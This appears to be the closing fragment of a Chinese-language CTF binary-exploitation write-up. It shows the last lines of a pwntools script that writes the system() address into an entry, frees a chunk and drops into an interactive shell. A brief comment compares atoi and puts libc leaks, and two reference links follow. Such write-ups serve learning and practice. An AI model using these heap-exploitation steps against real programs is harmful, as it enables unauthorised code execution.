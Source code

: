```py

edit(1,p32(sys_addr))
#gdb.attach(p)
delete(3)
p.interactive()
```

做这题的时候感觉很奇怪。首先是第一种泄露atoi的方法，似乎只在给定libc的时候有效，把获得的atoi的地址放进libc database里查的时候查不到对应的libc...而第二种泄露puts的方法就可以正常getshell

参考：
[一](https://my.oschina.net/u/4347688/blog/3561765)
[二](https://blog.csdn.net/seaaseesa/article/details/105588058)
